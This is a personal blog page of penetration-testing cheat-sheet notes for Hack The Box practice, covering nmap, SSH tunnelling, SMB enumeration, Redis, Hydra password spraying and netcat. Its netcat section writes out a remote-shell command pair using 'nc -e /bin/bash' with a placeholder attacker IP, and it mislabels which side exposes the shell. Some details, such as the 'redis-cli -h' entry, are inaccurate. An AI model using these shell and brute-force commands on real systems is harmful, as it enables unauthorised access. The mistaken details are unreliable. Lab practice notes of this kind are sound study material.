 ```yaml
---
title: "Useful Notes"
date: 2024-08-25T13:38:26Z
draft: false
author: "James"
tags: 
  - "Security"
  - "Penetration-Testing"
  - "Linux"
summary: "A page dedicated to quick and easy commands used."
---
```


## Introduction

I have decided to start progressing on Hack The Box while I have some free time to sharpen my skills and knowledge. 

## Useful commands 

#### Nmap

```nmap -F IPADDRESS``` - Fast scan the top 100 ports
```nmap -sV IPADDRESS``` - Service version detection
```nmap -O IPADDRESS``` - Operating system detection 
```nmap -sT IPADDRESS```- TCP Scan
```nmap -p- IPADDRESS```- Scan all ports

#### SSH

SSH Tunnelling to establish a connection with the remote ssh server and will listen for connections on the local port 1234 and forward to remote server on port 22. We can then access the services on the remote machine as if they were running locally. 
```ssh -L 1234:localhost:22 user@{target_IP}```

#### SMB

```smbclient -L``` is used to list file shares.

```smbclient -L \\IPADDRESS -U anonymous```
  Use tag "-W" to specify the workgroup.

Use ```get``` & ```put``` retrospecifively to download/upload files.

#### Redis
```redis-cli -u redis://host:port``` - To connect
```redis-cli -h``` - To get hostname

Once connected, run the ```info``` command to get the information about the system. 

Run the ```select``` command to enter the database.

#### Samba

```smbmap -H 10.10.10.3``` - Find shares

#### FTP

The below result from an Nmap scan shows the server allows anonymous logins:

```ftp-anon: Anonymous FTP login allowed (FTP code 230)```

#### Passwords

We can use Hydra to iterate through usernames and use the same password for each user via SSH:

```hydra -L users.txt -p 'PASSWORD' {target_IP} ssh```

#### Network Sockets

The command `ss -tlnp` is used to display detailed information about network sockets on a Linux system. Here's a breakdown of what each option means:

- **`ss`**: This is the command used to display network socket information (similar to `netstat`, but faster and more powerful).
  
- **`-t`**: Show **TCP** sockets only.
  
- **`-l`**: Show only **listening** sockets (i.e., sockets that are waiting for incoming connections, such as servers).

- **`-n`**: Show numerical addresses and ports instead of resolving hostnames or service names. For example, it shows `127.0.0.1` instead of `localhost`, and `80` instead of `http`.

- **`-p`**: Show the **process** using the socket, along with the PID (Process ID) and the name of the program.

### Example output:
State   Recv-Q  Send-Q  Local Address:Port   Peer Address:Port  Process
LISTEN  0       128     127.0.0.1:5432       0.0.0.0:*          users:(("postgres",pid=12345,fd=7))
LISTEN  0       128     0.0.0.0:22           0.0.0.0:*          users:(("sshd",pid=6789,fd=3))


#### Netcat

Netcat (or nc) is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It is used for a variety of tasks involving network connections

# 1. Basic Syntax
nc [options] [hostname] [port]

# 2. Start a TCP Server
nc -l -p 1234

# 3. Connect to a TCP Server
nc [hostname] 1234

# 4. File Transfer
# On the server (receiving):
nc -l -p 1234 > received_file
# On the client (sending):
nc [server_ip] 1234 < file_to_send

# 5. Port Scanning
nc -zv [hostname] [port_range]
# Example:
nc -zv localhost 20-80

# 6. Simple Chat
# Listener:
nc -l -p 1234
# Connector:
nc [hostname] 1234

# 7. UDP Mode
# Send UDP packets:
nc -u [hostname] 1234
# Listen for UDP packets:
nc -u -l -p 1234

# 8. Remote Shell
# Listener (attacker's machine):
nc -l -p 4444 -e /bin/bash
# Client (target's machine):
nc [attacker_ip] 4444

# 9. Check if a Port is Open
nc -zv [hostname] [port]
# Example:
nc -zv example.com 80

# 10. Set a Timeout
nc -w 3 [hostname] 1234
